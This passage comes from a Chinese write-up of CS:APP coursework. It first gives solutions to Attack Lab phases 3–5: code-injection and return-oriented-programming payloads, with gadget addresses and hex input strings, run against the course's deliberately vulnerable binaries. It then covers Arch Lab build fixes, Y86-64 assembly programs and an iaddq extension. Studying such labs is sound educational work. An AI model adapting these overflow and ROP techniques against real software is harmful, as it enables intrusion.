    - 代码执行，先将存在caller的栈中的字符串传给参数寄存器`%rdi`，再将`touch3`的地址压入栈中
    - 代码执行`ret`，从栈中弹出`touch3`指令，成功跳转

    cookie `0x59b997fa`作为字符串转换为ASCII为：`35 39 62 39 39 37 66 61`，注入代码段的地址与上题一样，同样为`0x5561dc78`，这样我们就可以得到需要输入的字符串了(p3.txt)，也就是 getbuf 函数接收的用户的输入：

    ```text
    48 c7 c7 a8 dc 61 55 68 
    fa 18 40 00 c3 00 00 00
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 
    78 dc 61 55 00 00 00 00
    35 39 62 39 39 37 66 61
    ```

    从而得到：

    ```
    Linux$ ./hex2raw < p3.txt > ans3.txt
    Linux$ ./ctarget -q -i ans3.txt
    Cookie: 0x59b997fa
    Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
    ```

5. ### Phase 4

    在第二部分中，我们要攻击的是 `rtarget`，它的代码内容与第一部分基本相同，但是攻击它却比第一部分要难得多，主要是因为它采用了两种策略来对抗缓冲区溢出攻击:

    - 栈随机化。这段程序分配的栈的位置在每次运行时都是随机的，这就使我们无法确定在哪里插入代码。
    - 限制可执行代码区域。它限制栈上存放的代码是不可执行的。一旦执行，则会遇到段错误。

    而 ROP：面向返回的程序设计，就是在已经存在的程序中找到特定的以`ret`结尾的指令序列为我们所用，称这样的代码段为gadget，把要用到部分的地址压入栈中，每次`ret`后又会取出一个新的gadget，于是这样就能形成一个程序链，实现我们的目的。(`ret`的字节级表示是`c3`)

    

    同时，有如下指令编码表：

    

    举个例子，`rtarget`有这样一个函数：

    ```C
    void setval_210(unsigned *p)
    {
        *p = 3347663060U;
    }
    ```

    它的汇编代码字节级表示为：

    ```asm
    0000000000400f15 <setval_210>:
    400f15: c7 07 d4 48 89 c7   movl $0xc78948d4,(%rdi)
    400f1b: c3                  retq
    ```

    查表可知，取其中一部分字节序列 `48 89 c7` 就表示指令`movq %rax, %rdi`，这整句指令的地址为`0x400f15`，于是从`0x400f18`开始的代码就可以变成下面这样：

    ```asm
    movq %rax, %rdi
    ret
    ```

    这个小片段就可以作为一个gadget为我们所用，其它一些可以利用的代码都在文件`farm.c`中展示了出来。

    本题的任务与Phase 2相同，都是要求返回到`touch2`函数，而phase 2中用到的注入代码为：

    ```asm
    movq    $0x59b997fa, %rdi
    pushq   $0x4017ec
    ret
    ```

    我们根本不可能找到这种带特定立即数（这里的$0x59b997fa）的gadget，只能思考其他办法。考虑用两个gadget：

    ```asm
    popq %rax           # 58
    ret                 # c3
    ###############     # 字节级表示
    movq %rax, %rdi     # 48 89 c7
    ret                 # c3
    ```

    栈帧情况如下：

    

    逻辑如下：

    - `getbuf`执行`ret`，从栈中弹出返回地址，(注意此时的`rsp`指向了`cookie`那里) 跳转到我们的`gadget01`
    - `gadget01`执行，将`cookie`弹出，赋值给`%rax`，然后执行`ret`，继续弹出返回地址，跳转到`gadget2`
    - `gadget2`执行，将`cookie`值成功赋值给参数寄存器`%rdi`，然后执行`ret`，继续弹出返回地址，跳转到`touch2`

    首要问题是找到我们需要的`gadget`，先用如下指令得到`rtarget`的汇编代码及字节级表示:

    ```bash
    objdump -d rtarget > rtarget.asm
    ```

    查表知，`pop %rax`用`58`表示，于是查找`58`，得到指令地址为`0x4019ab`。(其中 `90` 表示`nop`，什么都不做，只是让程序计数器加一，可以忽略)

    ```asm
    00000000004019a7 <addval_219>:
    4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
    4019ad:       c3                      retq                   retq
    ```

    `movq %rax, %rdi`表示为`48 89 c7`，查找得到指令地址为`0x4019c5`:

    ```asm
    00000000004019c3 <setval_426>:
    4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
    4019c9:       c3                      retq
    ```

    根据上图的栈帧，就能写出输入序列：

    ```text
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    ab 19 40 00 00 00 00 00 # pop %rax和retq地址
    fa 97 b9 59 00 00 00 00 # cookie值
    c5 19 40 00 00 00 00 00 # movq %rax, %rdi和retq地址
    ec 17 40 00 00 00 00 00 # touch2地址
    ```

    结果：

    ```bash
    Linux$ ./hex2raw < p4.txt | ./rtarget -q # 注意从这个phase开始是rtarget，不要输错成ctarget了
    Cookie: 0x59b997fa
    Type string:Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
    ```

6. ### Phase 5

    本题的任务与Phase 3相同，都是要求返回到`touch3`函数。Phase 3中用到的注入代码为：

    ```asm
    movq    $0x59b997fa, %rdi
    pushq   $0x4017ec
    ret
    ```

    其中`0x5561dca8`是栈中cookie存放的地址，而在本题中，栈的位置是随机的，把cookie存放在栈中似乎不太现实，但是我们又不得不这样做，那么有什么办法呢？只能在代码中获取`%rsp`的地址，然后根据偏移量来确定cookie的地址。

    查表，`movq %rsp, xxx`表示为`48 89 xx`，查找一下有没有可用的gadget，找到了：

    ```asm
    0000000000401aab <setval_350>:
    401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
    401ab1:       c3                      retq
    ```

    因此，地址0x401aad处的`48 89 e0`就是我们需要的指令：`movq %rsp, %rax`。通过合适的赋值，这段代码就能实现`%rsp`加上段内偏移地址来确定cookie的位置。剩下部分流程与Phase 3一致，大体思路如下：

    - 先取得栈顶指针的位置，赋给 `%rdi`
    - 取出存在栈中的偏移量的值，赋给 `%rsi`
    - 通过`lea (%rdi,%rsi,1),%rax`得到 cookie 的地址, 即`%rax = %rdi + (%rsi × 1)`
    - 将 cookie 的地址通过`%rax`传给`%rdi`
    - 调用`touch 3`

    找到的gadget代码如下：

    ```asm
    #地址：0x401aad
    movq %rsp, %rax
    ret

    #地址：0x4019a2
    movq %rax, %rdi
    ret

    #地址：0x4019cc
    popq %rax
    ret

    #地址：0x4019dd
    movl %eax, %edx
    ret

    #地址：0x401a70
    movl %edx, %ecx
    ret

    #地址：0x401a13
    movl %ecx, %esi
    ret

    #地址：0x4019d6
    lea    (%rdi,%rsi,1),%rax
    ret

    #地址：0x4019a2
    movq %rax, %rdi
    ret
    ```

    栈帧如下，为节省空间，每一行代码都省略了后面的`ret`:

    

    要注意，`getbuf`执行`ret`后相当于进行了一次`pop`操作，`test`的栈顶指针`%rsp=%rsp+0x8`，所以cookie相对于此时栈顶指针的偏移量是`0x48`，而不是`0x50`。（新`%rsp`往上数9格，也就是8 * 9 = 72 = 0x48）

    根据上图的栈帧，就能写出输入序列：

    ```text
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 
    ad 1a 40 00 00 00 00 00 
    a2 19 40 00 00 00 00 00 
    cc 19 40 00 00 00 00 00 
    48 00 00 00 00 00 00 00 
    dd 19 40 00 00 00 00 00 
    70 1a 40 00 00 00 00 00 
    13 1a 40 00 00 00 00 00 
    d6 19 40 00 00 00 00 00 
    a2 19 40 00 00 00 00 00 
    fa 18 40 00 00 00 00 00 
    35 39 62 39 39 37 66 61
    ```

    结果：

    ```bash
    Linux$ ./hex2raw < p5.txt | ./rtarget -q
    Cookie: 0x59b997fa
    Type string:Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
    ```

## Arch Lab

1. Arch Lab 分为三部分:

    - Part A: 需要我们写一些简单的Y86-64程序，从而熟悉Y86-64工具的使用。
    - Part B: 我们要用一个新的指令(`iaddq`: 将立即数与寄存器相加) 来扩展SEQ仿真器。
    - Part C: 本实验的核心，我们要通过理解流水线的过程以及利用新的指令来优化Y86-64基准程序和处理器设计。

    后续的所有工作都是在sim文件夹中进行操作的，然后执行：

    ```bash
    sim$ make clean; make
    ```

    报错：

    ```bash
    /usr/bin/ld: yas.o:/home/CSAPP-Lab/04-Arch-Lab/sim/misc/yas.h:13: multiple definition of `lineno'; yas-grammar.o:(.bss+0x0): first defined here
    collect2: error: ld returned 1 exit status
    make[1]: *** [Makefile:32: yas] Error 1
    ```

    🛠️Fix: `-fcommon` 告诉 GCC 把未初始化的全局变量（tentative definitions，例如 `int x;`）放到 "COMMON" 段，允许多个翻译单元中出现同名的未初始化全局而在链接时合并；而 `-fno-common`（GCC 10 起的默认）将这样的符号视作真正的定义（放到 .bss/.data），若有重复定义会产生链接错误。使用 `-fcommon` 会掩盖一些重复定义的 bug；使用 `-fno-common` 更严格、更能早期发现问题。从 GCC 10 开始默认是 `-fno-common`，而显式加 `-fcommon` 是为了兼容旧代码，因此需要在`sim/misc/Makefile`中添加`-fcommon`标志:

    ```Makefile
    LCFLAGS=-O1 -fcommon # Add -fcommon
    ```

    继续报错：

    ```bash
    /usr/bin/ld: /tmp/ccp9m3Ha.o:(.bss+0x0): multiple definition of `mem_wb_state'; /tmp/ccGHpqnC.o:(.bss+0x120): first defined here
    /usr/bin/ld: /tmp/ccp9m3Ha.o:(.bss+0x8): multiple definition of `ex_mem_state'; /tmp/ccGHpqnC.o:(.bss+0x128): first defined here
    /usr/bin/ld: /tmp/ccp9m3Ha.o:(.bss+0x10): multiple definition of `id_ex_state'; /tmp/ccGHpqnC.o:(.bss+0x130): first defined here
    /usr/bin/ld: /tmp/ccp9m3Ha.o:(.bss+0x18): multiple definition of `if_id_state'; /tmp/ccGHpqnC.o:(.bss+0x138): first defined here
    /usr/bin/ld: /tmp/ccp9m3Ha.o:(.bss+0x20): multiple definition of `pc_state'; /tmp/ccGHpqnC.o:(.bss+0x140): first defined here
    /usr/bin/ld: cannot find -ltk: No such file or directory
    /usr/bin/ld: cannot find -ltcl: No such file or directory
    collect2: error: ld returned 1 exit status
    make[1]: *** [Makefile:44: psim] Error 1
    ```

    🛠️Fix: 在`sim.h`如下代码处加上`extern`关键字:

    ```C
    extern pipe_ptr pc_state, if_id_state, id_ex_state, ex_mem_state, mem_wb_state; // Add extern
    ```

    继续报错：

    ```bash
    /usr/bin/ld: cannot find -ltk: No such file or directory
    /usr/bin/ld: cannot find -ltcl: No such file or directory
    ```

    🛠️Fix: 安装缺少的库:

    ```bash
    sudo apt install tcl tcl-dev tk tk-dev
    sudo apt install flex
    sudo apt install bison
    ```

    至此编译可以成功运行得到汇编器yas等众多文件。

2. ### Part A

    该部分主要是在文件夹`sim/misc`中，用Y86-64提供的指令集完成`example.c`中的函数编写，其中包含三个函数：`sum_list`、`rsum_list`和`copy_block`。可以使用汇编器yas对Y86-64程序进行汇编，然后使用指令集模拟器yis运行可执行文件。

    在`examples.c`中首先定义了一个链节点的结构体：

    ```C
    /* linked list element */
    typedef struct ELE {
        long val;
        struct ELE *next;
    } *list_ptr;
    ```

    #### sum_list

    `sum_list`函数对应的C代码如下所示，是对链表ls元素进行累加:

    ```C
    long sum_list(list_ptr ls)
    {
        long val = 0;
        while (ls) {
            val += ls->val;
            ls = ls->next;
        }
        return val;
    }
    ```

    我们需要写一个Y86-64汇编程序对以下链表结构调用`sum_list`函数：(链表是保存在内存中的，并且根据结构体ELE的声明，一个ELE实例在内存中的分布是8字节的val值以及8字节的ELE *值。)

    ```
        .align 8
    ele1:
        .quad 0x00a
        .quad ele2
    ele2:
        .quad 0x0b0
        .quad ele3
    ele3:
        .quad 0xc00
        .quad 0 
    ```

    在`sim/misc`文件夹中，新建 `sum.ys`，然后填入以下内容:

    ```asm
        .pos 0                  # Execution begins at address 0
        irmovq stack, %rsp      # Set up stack pointer
        call main               # Execute main program
        halt                    # Terminate program

        .align 8                # Sample linked list, aligned to 8-byte boundary
    ele1:
        .quad 0x00a
        .quad ele2
    ele2:
        .quad 0x0b0
        .quad ele3
    ele3:
        .quad 0xc00
        .quad 0

    main:
        irmovq ele1,%rdi        # first element address as argument
        call sum_list
        ret

    sum_list:                   # long sum_list(list_ptr ls), start in %rdi
        irmovq $0, %rax
        jmp test

    loop:
        mrmovq (%rdi), %rsi     # Load current element value
        addq %rsi, %rax         # Add to sum
        mrmovq 8(%rdi), %rdi    # Load next element address

    test:
        andq %rdi, %rdi         # Check if ls == NULL
        jne loop                # If not, enter loop
        ret

        .pos 0x200              # Stack starts here and grows to lower addresses
    stack:

    ```

    注意最后要多留一行空白行作为文件结尾，然后汇编并运行:

    ```bash
    sim/misc$ ./yas sum.ys && ./yis sum.yo
    Stopped in 26 steps at PC = 0x13.  Status 'HLT', CC Z=1 S=0 O=0
    Changes to registers:
    %rax:   0x0000000000000000      0x0000000000000cba
    %rsp:   0x0000000000000000      0x0000000000000200
    %rsi:   0x0000000000000000      0x0000000000000c00

    Changes to memory:
    0x01f0: 0x0000000000000000      0x000000000000005b
    0x01f8: 0x0000000000000000      0x0000000000000013
    ```

    返回值`%rax = 0xcba = 0x00a + 0x0b0 + 0xc00`，结果正确。

    #### rsum_list

    `rsum_list`函数对应的C代码如下所示，是通过递归形式完成链表累加:

    ```C
    long rsum_list(list_ptr ls)
    {
        if (!ls)
            return 0;
        else {
            long val = ls->val;
            long rest = rsum_list(ls->next);
            return val + rest;
        }
    } 
    ```

    和上一节一样，我们创建一个`rsum.ys`文件，写入以下代码:

    ```asm
        .pos 0                  # Execution begins at address 0
        irmovq stack, %rsp      # Set up stack pointer
        call main               # Execute main program
        halt                    # Terminate program

        .align 8                # Sample linked list
    ele1:
        .quad 0x00a
        .quad ele2
    ele2:
        .quad 0x0b0
        .quad ele3
    ele3:
        .quad 0xc00
        .quad 0

    main:
        irmovq ele1,%rdi
        call rsum_list
        ret

    rsum_list:
        andq %rdi, %rdi
        je return               # if (!ls)
        mrmovq (%rdi), %rbx     # val = ls->val
        mrmovq 8(%rdi), %rdi    # ls = ls->next
        pushq %rbx
        call rsum_list          # rsum_list(ls->next)
        popq %rbx
        addq %rbx, %rax         # val + rest
        ret
    return:
        irmovq $0, %rax
        ret

        .pos 0x200              # Stack starts here and grows to lower addresses
    stack:

    ```

    结果为`%rax = 0xcba = 0x00a + 0x0b0 + 0xc00`，与上一节的结果相同。

    ```bash
    sim/misc$ ./yas rsum.ys && ./yis rsum.yo
    Stopped in 37 steps at PC = 0x13.  Status 'HLT', CC Z=0 S=0 O=0
    Changes to registers:
    %rax:   0x0000000000000000      0x0000000000000cba
    %rbx:   0x0000000000000000      0x000000000000000a
    %rsp:   0x0000000000000000      0x0000000000000200

    Changes to memory:
    0x01c0: 0x0000000000000000      0x0000000000000086
    0x01c8: 0x0000000000000000      0x0000000000000c00
    0x01d0: 0x0000000000000000      0x0000000000000086
    0x01d8: 0x0000000000000000      0x00000000000000b0
    0x01e0: 0x0000000000000000      0x0000000000000086
    0x01e8: 0x0000000000000000      0x000000000000000a
    0x01f0: 0x0000000000000000      0x000000000000005b
    0x01f8: 0x0000000000000000      0x0000000000000013
    ```

    #### copy_block

    `copy_block`函数是将内存中的一个块复制到另一个不重叠的区域，并且计算所有复制数组元素的xor校验和Xor，对应的C代码为:

    ```C
    long copy_block(long *src, long *dest, long len)
    {
        long result = 0;
        while (len > 0) {
            long val = *src++;
            *dest++ = val;
            result ^= val;
            len--;
        }
        return result;
    } 
    ```

    创建 copy.ys 并输入如下内容：

    ```asm
        .pos 0                  # Execution begins at address 0
        irmovq stack, %rsp      # Set up stack pointer
        call main               # Execute main program
        halt                    # Terminate program

        .align 8                # Sample source and destination blocks, aligned to 8-byte boundary
    src:
        .quad 0x00a
        .quad 0x0b0
        .quad 0xc00
    dest:
        .quad 0x111
        .quad 0x222
        .quad 0x333

    main:
        irmovq src, %rdi        # src, src in %rdi
        irmovq dest, %rsi       # dest, dest in %rsi
        irmovq $3, %rdx         # len, len in %rdx
        call copy_block
        ret

    copy_block:                # long copy_block(long *src, long *dest, long len)
        irmovq $8, %r8
        irmovq $1, %r9
        irmovq $0, %rax
        andq %rdx, %rdx
        jmp test
    loop:
        mrmovq (%rdi), %r10     # val = *src1
        addq %r8, %rdi          # src++
        rmmovq %r10, (%rsi)     # *dest = val
        addq %r8, %rsi          # dest++
        xorq %r10, %rax         # result ^= val
        subq %r9, %rdx          # len--.  Set CC
    test:
        jne loop                # Stop when 0
        ret

        .pos 0x200              # Stack starts here and grows to lower addresses
    stack:

    ```

    结果：

    ```bash
    sim/misc$ ./yas copy.ys && ./yis copy.yo
    Stopped in 36 steps at PC = 0x13.  Status 'HLT', CC Z=1 S=0 O=0
    Changes to registers:
    %rax:   0x0000000000000000      0x0000000000000cba
    %rsp:   0x0000000000000000      0x0000000000000200
    %rsi:   0x0000000000000000      0x0000000000000048
    %rdi:   0x0000000000000000      0x0000000000000030
    %r8:    0x0000000000000000      0x0000000000000008
    %r9:    0x0000000000000000      0x0000000000000001
    %r10:   0x0000000000000000      0x0000000000000c00

    Changes to memory:
    0x0030: 0x0000000000000111      0x000000000000000a
    0x0038: 0x0000000000000222      0x00000000000000b0
    0x0040: 0x0000000000000333      0x0000000000000c00
    0x01f0: 0x0000000000000000      0x000000000000006f
    0x01f8: 0x0000000000000000      0x0000000000000013
    ```

3. ### Part B

    该部分在`sim/seq`文件夹中，想要我们对SEQ处理器进行扩展，使其支持`iaddq`指令，主要是修改`seq-full.hcl`文件：

    ```asm
    bool instr_valid = icode in 
	{ INOP, IHALT, IRRMOVQ, IIRMOVQ, IRMMOVQ, IMRMOVQ,
	       IOPQ, IJXX, ICALL, IRET, IPUSHQ, IPOPQ, IIADDQ }; # Add IIADDQ, 取指阶段, 该信号判断是否为合法指令

    # Does fetched instruction require a regid byte?
    bool need_regids =
        icode in { IRRMOVQ, IOPQ, IPUSHQ, IPOPQ, 
                IIRMOVQ, IRMMOVQ, IMRMOVQ, IIADDQ };         # Add IIADDQ, iaddq指令需要读取寄存器rB

    # Does fetched instruction require a constant word?
    bool need_valC =
        icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ, IJXX, ICALL, IIADDQ }; # Add IIADDQ, iaddq指令还需要立即数

    ################ Decode Stage    ###################################

    ## What register should be used as the B source?
    word srcB = [
        icode in { IOPQ, IRMMOVQ, IMRMOVQ, IIADDQ } : rB;    # Add IIADDQ, 因为iaddq要使用rB寄存器，所以需要设置srcB的源为rB
        icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
        1 : RNONE;  # Don't need register
    ];

    ## What register should be used as the E destination?
    word dstE = [
        icode in { IRRMOVQ } && Cnd : rB;
        icode in { IIRMOVQ, IOPQ, IIADDQ } : rB;             # Add IIADDQ, 算完的结果valE需要保存到寄存器rB中
        icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
        1 : RNONE;  # Don't write any register
    ];

    ################ Execute Stage   ###################################

    ## Select input A to ALU
    word aluA = [
        icode in { IRRMOVQ, IOPQ } : valA;
        icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ, IIADDQ } : valC; # Add IIADDQ, iaddq指令需要将aluA的值设置为valC
        icode in { ICALL, IPUSHQ } : -8;
        icode in { IRET, IPOPQ } : 8;
        # Other instructions don't need ALU
    ];

    ## Select input B to ALU
    word aluB = [
        icode in { IRMMOVQ, IMRMOVQ, IOPQ, ICALL, 
                IPUSHQ, IRET, IPOPQ, IIADDQ } : valB;          # Add IIADDQ, iaddq指令需要将aluB的值设置为valB
        icode in { IRRMOVQ, IIRMOVQ } : 0;
        # Other instructions don't need ALU
    ];

    ## Should the condition codes be updated?
    bool set_cc = icode in { IOPQ, IIADDQ };                   # Add IIADDQ, iaddq指令也需要更新CC
    ```

    报错：

    ```bash
    sim/seq$ make VERSION=full
    # Building the seq-full.hcl version of SEQ
    ../misc/hcl2c -n seq-full.hcl <seq-full.hcl >seq-full.c
    gcc -Wall -O2 -isystem /usr/include/tcl8.5 -I../misc -DHAS_GUI -o ssim \
            seq-full.c ssim.c ../misc/isa.c -L/usr/lib -ltk -ltcl -lm
    ssim.c:20:10: fatal error: tk.h: No such file or directory
    20 | #include <tk.h>
        |          ^~~~~~
    compilation terminated.
    make: *** [Makefile:44: ssim] Error 1
    ```

    🛠️Fix: 由于实验文件太老，需要把`sim/seq/Makefile`修改一下:

    ```Makefile
    TKINC=-isystem /usr/include/tcl8.6   # Line 20
    CFLAGS=-Wall -O2 -DUSE_INTERP_RESULT # Line 26
    ```

    继续报错：

    ```bash
    sim/seq$ make VERSION=full
    /usr/bin/ld: /tmp/cc96n739.o:(.data.rel+0x0): undefined reference to `matherr'
    collect2: error: ld returned 1 exit status
    make: *** [Makefile:44: ssim] Error 1
    ```

    🛠️Fix: 较新版本的glibc弃用了这部分内容，注释掉/sim/pipe/psim.c 806、807 line和/sim/seq/ssim.c 844、845 line（即：有源代码中有 matherr 的一行和它的下一行）

    现在编译成功，运行如下测试均通过。

    测试一：运行一个简单的Y86-64 程序，并将结果ISA模拟器的结果进行比对，输出如下（ISA Check Succeeds）:

    ```bash
    sim/seq$ ./ssim -t ../y86-code/asumi.yo
    Y86-64 Processor: seq-full.hcl
    137 bytes of code read
    IF: Fetched irmovq at 0x0.  ra=----, rb=%rsp, valC = 0x100
    IF: Fetched call at 0xa.  ra=----, rb=----, valC = 0x38
    Wrote 0x13 to address 0xf8
    IF: Fetched irmovq at 0x38.  ra=----, rb=%rdi, valC = 0x18
    IF: Fetched irmovq at 0x42.  ra=----, rb=%rsi, valC = 0x4
